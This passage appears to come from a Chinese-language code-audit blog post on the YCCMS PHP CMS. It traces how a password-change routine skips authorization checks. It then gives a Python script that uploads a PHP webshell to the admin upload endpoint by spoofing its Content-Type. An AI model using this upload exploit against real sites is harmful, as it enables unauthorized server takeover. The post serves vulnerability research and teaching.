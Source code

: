 ```php
			if($_edit){
				tool::layer_alert('密码修改成功!','?a=admin&m=update',6);
				}else{
				tool::layer_alert('密码未修改!','?a=admin&m=update',6);
			}
		}
		
			$this->_tpl->assign('admin', $_SESSION['admin']);
			$this->_tpl->display('admin/public/update.tpl');
	}
```
发现前面都是获取参数，这里跳转`$_edit=$this->_model->editAdmin();`
然后到`model/AdminModel.class.php`中的
![](https://img-blog.csdnimg.cn/20210704154303858.png)
发现`$_sql`那么跟进update，在`model/Model.class.php`发现
![](https://img-blog.csdnimg.cn/20210704154408579.png)

```php
	protected function execute($_sql){
		try{
			$_stmt=$this->_db->prepare($_sql);
			$_stmt->execute();
		}catch (PDOException $e){
			exit('SQL语句:'.$_sql.'<br />错误信息:'.$e->getMessage());
		}
		return $_stmt;
	}
```
发现直接执行了sql语句，但并没有判断用户身份，导致可以越权修改密码

### 文件上传(一)
只有在后台才可以上传文件的，但由于没有对用户身份进行验证导致后台能做的我们都能做
![](https://img-blog.csdnimg.cn/20210704155009441.png)
发现需要验证Content-Type，使用python或者抓包直接修改即可
```python
import requests

url = 'http://192.168.111.133/cms/yccms/admin/?a=call&m=upLoad'

payload = {
    'send':'确定上传'
}

file = open("bmth.php","r") #一句话木马路径
files = {'pic': ('bmth.php',file,'image/png'),}

r = requests.post(url,data=payload,files=files)

print(r.text)
```
![](https://img-blog.csdnimg.cn/20210704160113429.png)
跟进函数upload，在`controller/CallAction.class.php`
![](https://img-blog.csdnimg.cn/20210704160336201.png)
根据LogoUpload跟进到`public/class/LogoUpload.class.php`这里定义了上传文件的类型为png或x-png
![](https://img-blog.csdnimg.cn/20210704162251431.png)
发现首先验证文件类型和目录，然后移动文件到images目录下并将文件名前缀改为logo，并未判断用户权限，导致可以上传php文件getshell
